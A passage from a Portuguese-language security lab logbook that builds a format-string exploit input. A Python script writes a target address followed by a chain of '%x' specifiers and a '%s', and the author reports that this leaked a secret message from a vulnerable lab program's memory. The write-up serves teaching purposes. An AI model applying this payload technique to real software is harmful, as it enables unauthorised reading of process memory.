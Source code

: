 ![secretMAdd](uploads/logbook7P3.png)

Assim, e considerando que o endereço da mensagem secreta é 0x080b4008, o nosso input foi gerado com o seguinte script:

```python

#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# The address of the secret message and its convertion to binary
secret_message_address = 0x080b4008
address_bytes = secret_message_address.to_bytes(4, byteorder='little')

# Store the secret message address at offset 4
content[0:4] = address_bytes

# This line shows the 63 %x followed by %s on the 64th position
s = ".%.8x"*63 + ".%s"

# Store the string s at offset 4
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```

<p>
Com isto, conseguimos imprimir o conteúdo da heap, como se pode ver na imagem abaixo:
</p>

![secretMOutput](uploads/logbook7P4.png)
</div>
